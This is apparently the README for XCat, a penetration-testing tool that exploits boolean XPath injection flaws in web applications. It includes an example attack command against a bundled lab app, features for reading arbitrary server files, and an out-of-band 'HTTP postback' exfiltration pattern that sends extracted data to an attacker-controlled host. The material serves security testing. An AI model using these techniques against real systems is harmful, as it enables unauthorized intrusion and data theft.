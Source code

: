 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only dependency is [Twisted](http://www.twistedmatrix.com))
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The simplest command you can run on this site is:
`python xcat.py --true "Book found" --arg "title=Bible" --method POST --autopwn http://localhost:80`
You have to specify a condition keyword or HTTP status code (true, false, error), an argument for the attack to be appended to and a HTTP method to use.
The --autopwn flag will make xcat automatically detect more exotic features (xpath version, quote character and various out of bound attacks).

Usage
-----
    usage: xcat.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
                   [--true TRUE_KEYWORD | --false FALSE_KEYWORD | --error ERROR_KEYWORD]
                   [--true-code TRUE_CODE | --false-code FAIL_CODE | --error-code ERROR_CODE]
                   [--autopwn] [--schema-only] [--quotecharacter QUOTE_CHARACTER]
                   [--executequery EXECUTEQUERY] [--max_search SEARCH_LIMIT]
                   [--timeout TIMEOUT] [--stepsize STEP_SIZE]
                   [--normalize {NFD,NFC,NFDK,NFKC}] [--xversion {1,2,auto}]
                   [--lowercase] [--regex] [--connectback CONNECTBACK]
                   [--notfoundstring NOTFOUNDCHAR] [--fileshell] [--getcwd]
                   [--useragent USER_AGENT] [--timeit] [--ignorecomments]
                   [--codepointstart CODEPOINTSTART]
                   URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
